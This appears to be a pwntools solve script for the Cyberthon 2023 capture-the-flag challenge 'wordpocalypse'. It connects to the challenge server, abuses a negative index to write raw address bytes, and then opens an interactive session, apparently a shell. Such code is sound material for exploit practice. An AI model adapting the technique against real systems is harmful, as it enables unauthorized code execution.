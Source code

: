 ```py
from pwn import *

exe = ELF("./wordpocalypse")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43020)

    return p


def main():
    p = conn()

    # good luck pwning :)
    p.sendline(b"1")

    # p.sendline(b"-35")
    #
    # payload = b"\x14\x40\x00\x00\x00"
    # p.send(payload)
    #
    # payload = b"\x01\x00\x00\x00\xbc"
    # p.send(payload)
    #
    # p.send(b"havoc")

    p.sendline(b"-36")
    payload = b"\x00\x00\x00\x00\xc0"
    p.send(payload)

    payload = b"\x00\x76\x14\x40\x00"
    p.send(payload)

    p.send(b"havoc")

    p.interactive()


if __name__ == "__main__":
    main()
```
